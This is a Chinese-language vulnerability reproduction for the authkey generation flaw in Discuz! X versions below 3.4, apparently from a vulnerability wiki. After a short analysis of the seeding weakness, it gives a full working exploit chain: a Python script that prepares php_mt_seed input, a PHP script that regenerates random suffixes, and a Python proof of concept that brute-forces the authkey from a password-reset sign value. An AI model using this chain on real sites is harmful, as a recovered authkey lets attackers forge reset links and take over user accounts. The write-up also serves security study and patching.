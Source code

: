 Discuz! X \< 3.4 authkey 算法的安全性漏洞
=========================================

一、漏洞简介
------------

2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等...

二、漏洞影响
------------

php\>5.3+php-curl\<=7.54

-   Discuz\_X3.3\_SC\_GBK

-   Discuz\_X3.3\_SC\_UTF8

-   Discuz\_X3.3\_TC\_BIG5

-   Discuz\_X3.3\_TC\_UTF8

-   Discuz\_X3.2\_SC\_GBK

-   Discuz\_X3.2\_SC\_UTF8

-   Discuz\_X3.2\_TC\_BIG5

-   Discuz\_X3.2\_TC\_UTF8

-   Discuz\_X2.5\_SC\_GBK

-   Discuz\_X2.5\_SC\_UTF8

-   Discuz\_X2.5\_TC\_BIG5

-   Discuz\_X2.5\_TC\_UTF8

三、复现过程
------------

### 漏洞分析

在dz3.3/upload/install/index.php 346行

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId25.png)

我们看到authkey是由多个参数的md5前6位加上random生成的10位产生的。

跟入random函数

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId26.png)

当php版本大于4.2.0时，随机数种子不会改变

我们可以看到在生成authkey之后，使用random函数生成了4位cookie前缀

    $_config['cookie']['cookiepre'] = random(4).'_';

那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId27.png)

> 如上图所示，前四位是**sW7c**

然后通过脚本生成用于php\_mt\_seed的参数

> 这里需要修改第13行代码，替换你自己的cookie前四位

    # coding=utf-8
    w_len = 10
    result = ""
    str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
    length = len(str_list)
    for i in xrange(w_len):
        result+="0 "
        result+=str(length-1)
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    sstr = "sW7c"
    for i in sstr:
        result+=str(str_list.index(i))
        result+=" "
        result+=str(str_list.index(i))
        result+=" "
        result+="0 "
        result+=str(length-1)
        result+=" "
    print result

得到参数,使用php\_mt\_seed脚本

https://github.com/ianxtianxt/php-mt\_rand

    ./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串

    <?php
    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }
    $fp = fopen('result.txt', 'rb');
    $fp2 = fopen('result2.txt', 'wb');
    while(!feof($fp)){
        $b = fgets($fp, 4096);
        if(preg_match("/seed = (\d)+/", $b, $matach)){
            $m = $matach[0];
        }else{
            continue;
        }
        // var_dump(substr($m,7));
        mt_srand(substr($m,7));
        fwrite($fp2, random(10)."\n");
    }
    fclose($fp);
    fclose($fp2);

当我们获得了所有的后缀时，我们需要配合爆破6位字符（0-9a-f）来验证authkey的正确性,由于的数量差不多16\*\*6\*200+,为了在有限的时间内爆破出来，我们需要使用一个本地爆破的方式。

这里使用了找回密码中的id和sign参数，让我们一起来看看逻辑。

当我们点击忘记密码的时候。

会进入`/source/module/member/member_lostpasswd.php`
65行生成用于验证的sign值。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId28.png)

跟随make\_getpws\_sign函数进入`/source/function/function_member.php`

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId29.png)

然后进入dsign函数，配合authkey生成结果

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId30.png)

这里我们可以用python模拟这个过程，然后通过找回密码获得uid、id、sign，爆破判断结果。

### poc

> http://www.0-sec.org/dz3.3/member?mod=getpasswd&uid=2&id=vnY6nW&sign=af3b937d0132a06b
>
> 自行修改第7,8,13行代码

    # coding=utf-8
    import itertools
    import hashlib
    import time
    def dsign(authkey):
        url = "http://127.0.0.1/dz3.3/"
        idstring = "vnY6nW"
        uid = 2
        uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
        url_md5 = hashlib.md5(uurl+authkey)
        return url_md5.hexdigest()[:16]
    def main():
        sign = "af3b937d0132a06b"
        str_list = "0123456789abcdef"
        with open('result2.txt') as f:
            ranlist = [s[:-1] for s in f]
        s_list = sorted(set(ranlist), key=ranlist.index)
        r_list = itertools.product(str_list, repeat=6)
        print "[!] start running...."
        s_time = time.time()
        for j in r_list:
            for s in s_list:
                prefix = "".join(j)
                authkey = prefix + s
                # print dsign(authkey)
                if dsign(authkey) == sign:
                    print "[*] found used time: " + str(time.time() - s_time)
                    return "[*] authkey found: " + authkey
    print main()

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId32.png)

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X<3.4authkey算法的安全性漏洞/media/rId33.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85
